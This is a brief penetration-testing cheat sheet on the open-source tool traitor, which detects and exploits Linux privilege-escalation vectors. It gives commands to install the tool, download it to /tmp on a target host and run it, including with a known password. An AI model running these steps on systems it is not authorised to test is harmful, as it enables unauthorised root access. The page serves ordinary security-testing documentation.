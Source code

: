 # Privilege Escalation Using traitor

<div class="row row-cols-lg-2"><div>

[traitor](https://github.com/liamg/traitor) <small>(6.8k ⭐, 2022 ☠️)</small> is an open-source tool to automatically detect common privilege escalation vectors and exploit them.

It's written in [GO](/programming-languages/high-level/others/golang/index.md) which you need to install to download the tool.

```shell!
$ CGO_ENABLED=0 go install github.com/liamg/traitor/cmd/traitor@latest
```

The tool is available at `/home/<username>/go/bin/traitor`. It can be uploaded and executed on any host without having them install GO.
</div><div>

To find vulnerable escalation vectors:

```shell!
$ wget [...] -O /tmp/traitor
$ /tmp/traitor
$ /tmp/traitor -p   # if the password is known
```
</div></div>